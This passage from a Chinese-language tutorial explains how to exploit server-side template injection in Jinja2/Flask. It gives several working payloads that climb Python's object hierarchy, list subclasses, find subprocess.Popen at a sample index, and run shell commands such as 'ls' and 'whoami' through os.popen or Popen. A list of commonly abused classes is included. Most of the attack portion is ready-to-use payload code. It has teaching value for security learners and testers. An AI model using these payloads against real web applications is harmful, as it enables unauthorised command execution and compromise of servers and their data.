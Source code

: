 ```jinja2
{{request.__class__.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

#### 一般化Payload构造

如果上述的情况都无法使用，我们只好考虑用唯一能获取的对象来曲线救国。我们知道Python的基本数据类型也会有相应的对象，类似地，我们可以有如下方法获得`<class 'Object'>`：

```
{{0.__class__.__base__}}
{{''.__class__.__bases[0]__}}
{{"".__class__.__mro[0]__}}
{{g.__class__.__base__}}
```

接着我们会用到一个特殊的魔术方法以返回Object的所有子类：

```
{{"".__class__.__bases__[0].__subclasses__()}}
```

需要注意的是，这个方法返回的是**数组**而不是**字典**，这意味着我们无法通过键值对的方式访问对应的类，只能通过**数字索引**的方式来获取对应的类。这就是SSTI中最传统的方式，由于每个服务器上Python环境都不同，所以含有风险函数的类的索引也不同，因此我们不能盲目的使用以前的payload。下面给出了一个能够获取数字索引的payload：

```jinja2
{% set classes = range.__class__.__base__.__subclasses__() %}
{% for class in classes %}
{{ loop.index0 }}: {{ class.__name__ }} ({{ class.__module__ }})
{% endfor %}
```

利用这个payload我们能获取到一些类。

接下来就是获取该类的方法，然后获取该方法的globals属性，观察有无os或者builtins，这是一项浩瀚的工程，可以借助脚本，也可以记住一些常见的能获取到风险函数的类。

例如在我本地执行上述payload后：

```
Hi, 0: type (builtins)1: async_generator (builtins)2: bytearray_iterator (builtins)
...
532: StreamWrapper (colorama.ansitowin32)533: AnsiToWin32 (colorama.ansitowin32)534: CompletedProcess (subprocess)535: Popen (subprocess).
```

我发现535是Popen，这个类的名字带有强烈的暗示性，所以我选择这个索引并查看它的init方法：

```
Hi, <function Popen.__init__ at 0x7f91fe4528e0>.
```

说明它存在globals属性，于是读取globals属性，最终发现os模块，因而有payload：

```jinja2
{{range.__class__.__base__.__subclasses__()[535].__init__.__globals__.os.popen("whoami").read()}}
```

一般来说，在绝大多数环境下，这些类经常被使用：

```
os._wrap_close
warnings.WarningMessage
_frozen_importlib.BuiltinImporter
subprocess.Popen
ctypes.CDLL
codecs.StreamReaderWriter
```

讲到此处我们可以触类旁通地发现，SSTI不只有一种方法去执行，如果我们获取的类本身就足够有特点，那么也不必拘泥于常规。

#### 特殊化Payload构造

以刚刚用过的subprocess.Popen为例，我们可以直接使用这个类创建一个对象，并只需要使用这个类即可：

```jinja2
{{''.__class__.__bases__[0].__subclasses__()[535]('ls', shell=True, stdout=-1).communicate()[0]}}
```